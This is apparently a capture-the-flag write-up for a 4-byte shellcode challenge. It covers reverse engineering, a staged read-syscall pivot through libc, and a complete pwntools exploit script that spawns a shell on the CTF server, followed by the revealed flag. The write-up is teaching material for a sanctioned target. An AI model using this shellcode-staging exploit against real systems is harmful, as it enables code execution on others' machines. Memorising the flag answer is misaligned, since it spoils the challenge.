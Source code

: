 # hpjl

- Published: 12/21/2024 (#21/25 in event)
- Category: Binary exploitation
- Points: 125
- Author: Kolmus

Hope, peace, joy and love. Four bytes for the four candles of advent. Four days and it’s Christmas!

Connect using `nc ctf.csd.lol 2024`.

## Attachments

- [ld-linux-x86-64.so.2](https://files.vipin.xyz/api/public/dl/LeOau0B4/Day%2021%20-%20hpjl/ld-linux-x86-64.so.2)
- [libc.so.6](https://files.vipin.xyz/api/public/dl/CBsugfnm/Day%2021%20-%20hpjl/libc.so.6)
- [4bytes](https://files.vipin.xyz/api/public/dl/s9bFpjrp/Day%2021%20-%20hpjl/4bytes)

## Hints

**Hint 1:**

Use your surroundings to your advantage. If 4 bytes don’t cut it, can you get more?

**Hint 2:**

Look closely at the values already present in the registers at the time your shellcode is executed (gdb). Try setting up
a `read` syscall. Maybe you can also make use of a 5th byte: the terminating `ret`.

## Write-up

<details>
<summary>Reveal write-up</summary>

Let's start by reverse engineering the provided binary.

![1.jpg](1.jpg)

The main function seems to be mmap()-ing one page of memory to address 0x13370000 as read-write-execute
(`(PROT_WRITE | PROT_READ | PROT_EXEC) == 7`). It then reads 4 bytes from stdin into that buffer and appends `0xc3` and
a null byte. `0xc3` is the opcode for `ret`. The first 3 bytes are then checked to see if they are `0x0f` or `0xcd`,
which are the first byte of the opcode for `syscall` and `int` respectively. If those bytes are not present, the program
will call the buffer as shellcode.

Since 4 bytes are hardly enough to do anything by themselves, we need to find a way to execute more shellcode. Maybe we
can use some of the values that are already present in the registers/memory to our advantage.

After patching the binary to use the provided libc and ld (I use pwninit for this), debugging the program using gdb and
breaking at the start of the shellcode (4 nops in this case), we can see that the registers are as follows:

![2.jpg](2.jpg)

Our goal will be to somehow make another `read` syscall to read more shellcode into the buffer. For that we need the
registers to be as follows:

```txt
rax = 0
rdi = 0
rsi = 0x13370000 to 0x13371000
rdx = more than 4
```

We also need to make sure execution eventually ends up back at the newly read shellcode. As you can see, all the
registers are already set up to work for a read syscall, the problem now is making the syscall. Since we can't use
`syscall` or `int` directly, we need to find a place in memory that contains a syscall and is reachable from the current
position by using only 4 bytes worth of instructions. One intersting value I noticed is in `rcx`. Disassembling the
function it is part of (libc's read() wrapper) reveals the following:

![3.jpg](3.jpg)

We're only one instruction off from a syscall! Changing `cl` to `0x5f` will make `rcx` point to a syscall instruction
that's part of libc's `read()`. This also means it will likely not crash if we go there. `mov cl, 0x5f` takes up 2
bytes, leaving us with 2 more. `jmp rcx` is also 2 bytes, but remember that we also still need to bring execution back
to the shellcode at 0x13370000. There is one more thing we can benefit from: the stack combined with the terminating
`ret`. As you know, `ret` pops the return address from the stack and jumps to it. Libc's read() also returns. The idea
is to use 2 `push` instructions to put the address of the shellcode on the stack (`push rdx`), and `rcx` on top of it
(`push rcx`). Then, the `ret` will jump to the read syscall pointed to by `rcx` (allowing us to input as much shellcode
as we like) and after libc's read() finishes, it will jump back to the shellcode. For the second stage, I simply use
pwntools' shellcraft to pop a shell.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./4bytes_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal = ['cmd.exe', '/c', 'start', 'cmd.exe', '/c', 'wsl.exe']

ADDR = 'ctf.csd.lol'
PORT = 2024

def debug(p):
    gdb.attach(p)
    input('debugger started. press enter to continue ...')

def conn():
    if args.REMOTE:
        p = remote(ADDR, PORT)
    else:
        p = process([exe.path])
    return p

p = conn()

payload = asm('''
    mov cl, 0x5f
    push rdx
    push rcx
''' + shellcraft.amd64.linux.sh())

#debug(p)
p.sendafter(b':', payload)

p.interactive()
# cat flag.txt
# csd{4LL_1_W4n7_4_CHR15TmaS_iS_4tuN3_4_L1F3}
```

Flag: `csd{4LL_1_W4n7_4_CHR15TmaS_iS_4tuN3_4_L1F3}`

</details>

Write-up by Kolmus
